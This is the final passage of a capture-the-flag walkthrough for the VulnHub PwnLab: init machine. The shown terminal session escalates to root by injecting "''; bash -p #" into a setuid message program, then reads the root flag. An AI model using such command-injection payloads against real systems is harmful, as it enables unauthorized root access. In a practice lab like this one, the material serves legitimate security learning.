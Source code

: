
It didn't worked because we have to specify `-p` option in order to have a shell as root:

![bash -p option](https://amirr0r.github.io/assets/img/vulnhub/linux/pwnlab/bash-p.png)

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; bash -p #
''; bash -p #

bash-4.3# id
id
uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
```

- **Flag**:

```bash
bash-4.3# cd /root
cd /root
bash-4.3# ls -la
ls -la
total 20
drwx------  2 root root 4096 Mar 17  2016 .
drwxr-xr-x 21 root root 4096 Mar 17  2016 ..
lrwxrwxrwx  1 root root    9 Mar 17  2016 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
----------  1 root root 1840 Mar 17  2016 flag.txt
lrwxrwxrwx  1 root root    9 Mar 17  2016 messages.txt -> /dev/null
lrwxrwxrwx  1 root root    9 Mar 17  2016 .mysql_history -> /dev/null
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
bash-4.3# cat flag.txt
cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
(_ ___)  _____                             _                            (_ ___)
(__  _) /  __ \                           | |                           (__  _)
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
( _ __)                     __/ |                                       ( _ __)
(__  _)                    |___/                                        (__  _)
(__  _)                                                                 (__  _)
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
(__  _) this challenge.                                                 (__  _)
(_ ___)                                                                 (_ ___)
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
(__  _) reading it                                                      (__  _)
(__  _)                                                                 (__  _)
(__  _)                                             For sniferl4bs.com  (__  _)
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
(__  _)                                                                 (__  _)
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
`-._.-'                                                                 `-._.-'
bash-4.3#
```
